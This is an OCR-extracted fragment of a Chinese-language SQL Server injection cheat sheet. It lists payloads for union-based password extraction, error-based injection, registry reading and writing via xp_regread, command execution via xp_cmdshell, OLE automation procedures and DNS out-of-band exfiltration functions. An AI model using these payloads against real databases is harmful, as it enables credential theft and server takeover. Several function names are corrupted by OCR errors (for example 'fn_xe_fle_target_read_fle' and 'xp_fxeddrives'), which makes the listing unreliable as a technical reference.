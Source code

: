 ```
	– id=1 union:select password from:user
• 文件读取
	– OpenRowset
• 当前查询语句
	– select text from sys.dm_exec_requests cross apply sys.
dm_exec_sql_text(sql_handle)
• hostname
	– 用于判断是否站库分离
	– select host_name()
	– exec xp_getnetname
• 服务器信息
	– exec xp_msver
• 系统配置
	– select * from sys.configurations;
```

**注册表读写**

```
• xp_regread
	– exec xp_regread N'HKEY_LOCAL_MACHINE', N'SYSTEM\CurrentControlSet\Services\MSSEARCH'
• xp_regwrite
• xp_regdeletvalue
• xp_regdeletkey
• xp_regaddmultistring
```

**报错注入**

• 1=convert(int,(db_name()))  

**常用函数**

```
• SUSER_NAME()
• USER_NAME()
• PERMISSIONS()
• DB_NAME()
• FILE_NAME()
• TYPE_NAME()
• COL_NAME()
```

**DNS OOB**

```
• fn_xe_fle_target_read_fle
• fn_get_audit_fle
• fn_trace_gettable
```

**其它常用存储过程**

```
• sp_execute_external_script
• sp_makewebtask
• sp_OACreate
• sp_OADestroy
• sp_OAGetErrorInfo
• sp_OAGetProperty
• sp_OAMethod
• sp_OASetProperty
• sp_OAStop
• xp_cmdshell
• xp_dirtree
• xp_enumerrorlogs
• xp_enumgroups
• xp_fxeddrives
• xp_getfledetails
```